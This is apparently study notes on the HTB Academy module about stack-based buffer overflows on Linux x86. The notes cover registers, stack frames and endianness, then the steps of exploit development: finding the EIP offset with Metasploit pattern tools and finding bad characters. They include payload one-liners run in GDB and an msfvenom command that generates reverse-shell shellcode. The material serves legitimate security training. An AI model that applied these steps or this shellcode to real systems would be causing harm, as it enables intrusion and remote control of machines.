

# Stack-Based Buffer Overflows on Linux x86

This writeup cover the module *Stack-Based Buffer Overflows on Linux x86* on HTB academy.

## Buffer overflows - overview

Buffer overflows are caused by flawed code, which cannot process a larger amount of data than is specified in the code. Buffer overflows are not limited to binaries, and often occur on embedded devices. This is due to the popularity of languages like C on embedded devices.

A buffer overflow can cause various faults in a program:

- Program crash
- Data corruption
- Harm the data structure

Data corruption and harming the data structure can in some cases overwrite the programs return address with arbitrary data. This allows an attacker to execute commands with the same privileges as the process has.

## CPU architecture

Each CPU architecture is built in a specific way with each their own *instruction set*. The instruction set is used to execute processes by the CPU. Common CPU architectures and Instruction Set Architectures (ISA) are:

CPU arch
: x86/i386
: x86-64/amd64
: ARM

ISA
: CISC - Complex Instruction Set Computing
: RISC - Reduced Instruction Set Computing
: VLIW - Very Long Instruction Word
: EPIC - Explicitly Parallel Instruction Computing

The different kinds of CPU architecture and ISAs are important to know, as this is the baseline for how the computer will run a program.

### Instruction cycle

The instruction set describes all machine instructions of a processor. The scope of the instruction set varies depending on the processor type, but to simplify we can summarize the instructions as follows:

- Fetch: The next machine instruction address is read and loaded from Cache or RAM into the instruction register
- Decode: A decoder converts the loaded instruction and start necessary circuits to execute
- Fetch operands: If more data is needed for execution, this instruction loads the addiotional data from Cache or RAM
- Execute: The instruction is executed.
- Update instruction pointer: If no jump instruction has been executed, the Instruction address register is increased by the lenght of the last executed instruction and is ready to load the next instruction.

## Stack-based buffer overflow

The stack is a Last-in-first-out (LIFO) data structure which stores return addresses, parameters and frame pointers (depending on compiler options). The linker will reserve an area in RAM for the stack. Contents in the stack are accessed via the *stack pointer*. Data execution prevention (DEP) is a prevention of buffer overflow, where parts of the memory are marked as read-only. Attackers bypassed this using return oriented programming (ROP). ROP allows the attacker to store the code in an executable area and using existing calls to execute the code. This was then made more difficult by Address space layout randomization (ASLR) which randomizes storage of values in memory. It is still possible to use ROP by leaking memory addresses, but more difficult.

*NOTE*: usage of GDB to debug and view the instructions of binary: `gdb -q <file>`.

*Good commands to remember:*
: `echo 'set disassembly-flavor intel' > ~/.gdbinit`
: `gdb -q <file>`
: `disas <function>` (in gdb)
: `run $(python -c "print '\x55' * 1200")` (in gdb, runs the python code. Writes 1200 of the hex character).
: `info registers` used to view the registers current content.
: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c` (generate a reverse shell which can be injected as shell code)

## CPU registers

There are different kinds of CPU registers. These are:

- General registers
- Control registers
- Segment registers

There are further subdivisions in the general registers, which we are going to look into:

- Data registers
- Pointer registers
- Index registers

### Data registers

These registers stores data and has different purposes:

32-bit
: EAX - Used for arithmetic operations
: EBX - Base is used in indexing
: ECX - Counter is used to rotate instructions
: EDX - Data is used for I/O and in arithmetic with large values

64-bit data registers has the same naming convention, but uses and *R* instead of the *E* like the following: `EAX -> RAX`.

### Pointer registers

These registers stores addresses and has different purposes:

32-bit
: EIP - Instruction pointer stores the offset address of nex instruction
: ESP - Stack pointer points to the top af stack
: EBP - Base pointer which points to the base of the stack

64-bit pointer registers has the same naming convention, but uses and *R* instead of the *E* like the following: `EIP -> RIP`.

## Stack frames

When the stack grows in size, it is divided into regions called *stack frames*. These stack frames are allocated the required amount of memory space for the function it holds. The stack frame defines a frame of data which begins with the base pointer (EBP) and ends with the stack pointer (ESP).

When a new stack frame is created the EBP of the previous stack frame, is immediately stored in order to have the next instruction ready. After this the ESP of the previous frame is copied to the EBP of the new frame:

```gdb
Dump of assembler code for function bowfunc:
   0x0000054d <+0>:     push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:     mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:     push   ebx
   0x00000551 <+4>:     sub    esp,0x404 # <---- 3. Moves ESP to the top
   <...SNIP...>
   0x00000580 <+51>: leave  
   0x00000581 <+52>: ret    
```

Compiling to 64-bit will enable the program to use addresses which are twice as big as with 32-bit. This almost halves the amount of instructions in the assembly code for the binary.

## Endianness

-Address: `0xffff0000`
-Word: `\xAA\xBB\xCC\xDD`

Memory Address: 0xffff0000  0xffff0001  0xffff0002  0xffff0003
Big-Endian:     AA          BB          CC          DD
Little-Endian:  DD          CC          BB          AA

Endiannes defines in which order we need to input our payload in the binary.

## Take control of the EIP (Instruction pointer)

In stack based buffer overflow, it is important to control the EIP. We need to manipulate the EIP to point to our code in order for it to execute. If we use the example on HTB academy, we see that storing *x* amount of a character will sometimes overwrite memory locations. Using the `info registers` command in GDB we are able to see which registers where overwritten. If the EIP is one of them, we are able to manipulate it. Now we need to determine the offset, in order to insert the correct values at the EIP memory address.



### Determine the offset

It is possible to use MSF (metasploit) to create a *pattern_create* script which can help determine the exact number of bytes needed to reach the EIP: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt`. We replace the previous input with this pattern and observe the memory address of the EIP. If the address has changed, we use a different MSF tool called *pattern_offset* in order to determine the exact amount of bytes needed to overwrite the EIP: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569 -> Exact match at offset 1036`. To sanity check this can be run in GDB: `run $(python -c "print '\x55' * 1036 + '\x66' * 4")`. If the address then contains the last four bytes, we have successfully gained EIP manipulation.


### Determine bad chars

Some magic bytes are not allowed in programs, which means these chars should be avoided when creating our shellcode, otherwise these chars will be removed from memory when the input is supplied. 

Identifying these chars can be done by using an array of all the characters commonly blacklisted:
`CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"`

We need to calculate the lenght of this array in order to correctly adjust the amount of buffer bytes inserted. The array is 256 chars in lenght. We adjust the buffer accordingly: `Buffer ="\x55" * (1040 - 256 - 4) = 780 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff" EIP = "\x66" * 4`.

With this adjusted input, the breakpoint in GDB is set to the function where buffer overflow is possible to avoid the program from crashing before we can inspect the stack. In GDB break points are set with `break <name of function>`. Then run the python script with the buffer in GDB like in the last section, locate the end of the `0x55` buffer and look for any overlaps in the bad char order like this example:

```assembly
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
                                       # |----| <- "\x09" expected

0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
<SNIP>
```

This is done repeadetly until no chars are removed from memory.
